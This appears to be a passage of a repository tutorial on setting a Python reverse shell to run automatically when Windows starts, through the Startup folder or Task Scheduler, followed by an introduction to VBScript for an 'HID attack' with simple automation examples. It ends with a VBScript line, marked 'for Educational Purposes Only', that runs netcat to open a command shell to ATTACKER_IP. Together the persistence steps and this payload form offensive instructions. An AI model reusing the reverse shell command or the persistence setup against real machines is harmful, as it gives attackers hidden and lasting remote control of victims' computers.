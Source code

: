 ### **Running the Script on Startup (Windows)**

To ensure that the reverse shell starts automatically when your Windows machine starts, you can place the script in the **Windows Startup folder** or use Task Scheduler. 

#### **Option 1: Add to Windows Startup Folder**

1. Open the **Startup folder** by pressing `Win + R`, typing `shell:startup`, and pressing Enter.
2. Create a shortcut to the Python script in this folder. Right-click the folder and choose **New** → **Shortcut**. Then, browse to your script (`reverse_shell.py`) and add it to the Startup folder.

Now, every time Windows starts, it will automatically run the script.

#### **Option 2: Use Task Scheduler**

1. Open **Task Scheduler** (`Win + R`, type `taskschd.msc`, and press Enter).
2. In the right pane, click **Create Task**.
3. In the **General** tab, give your task a name like `Reverse Shell`.
4. In the **Triggers** tab, click **New** and set the task to trigger **At startup**.
5. In the **Actions** tab, click **New**, and in the **Program/script** field, enter the path to Python (e.g., `C:\Python39\python.exe`).
6. In the **Add arguments (optional)** field, enter the full path to your `reverse_shell.py` script.
7. Click **OK** to create the task.

### ***Running HID Attack***

A **VBS (VBScript)** script is a file written in **Visual Basic Scripting Edition**, a lightweight programming language developed by Microsoft. It is used primarily for automation tasks, administrative scripting, and system management. VBS scripts can be executed directly in Windows using the Windows Script Host (WSH) without requiring additional software.


### **Basic Structure of a VBS Script**
A VBS script consists of commands and logic written in VBScript syntax. Here's a simple example:

#### Example: Displaying a Message Box
```vbscript
MsgBox "Hello, this is a VBScript!", vbInformation, "VBScript Example"
```
- **What it does**: Displays a pop-up message box with the text, "Hello, this is a VBScript!"

---

### **How to Run a VBS Script**
1. Save the script with a `.vbs` extension (e.g., `example.vbs`).
2. Double-click the file to execute it. The Windows Script Host (WSH) processes the script.
3. Alternatively, run it from the command prompt:
   ```cmd
   cscript example.vbs
   ```

---

### **Practical Examples**
#### **1. Open a Website**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "https://www.example.com"
```

#### **2. Automate File Operations**
```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:\source\file.txt", "C:\destination\file.txt"
```

#### **3. Create a Startup Script**
```vbscript
Set objShell = CreateObject("WScript.Shell")
startupFolder = objShell.SpecialFolders("Startup")
Set link = objShell.CreateShortcut(startupFolder & "\example.lnk")
link.TargetPath = "C:\path\to\your\program.exe"
link.Save
```

#### **4. Run a Reverse Shell (for Educational Purposes Only)**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd.exe /k nc -e cmd.exe ATTACKER_IP ATTACKER_PORT"
```
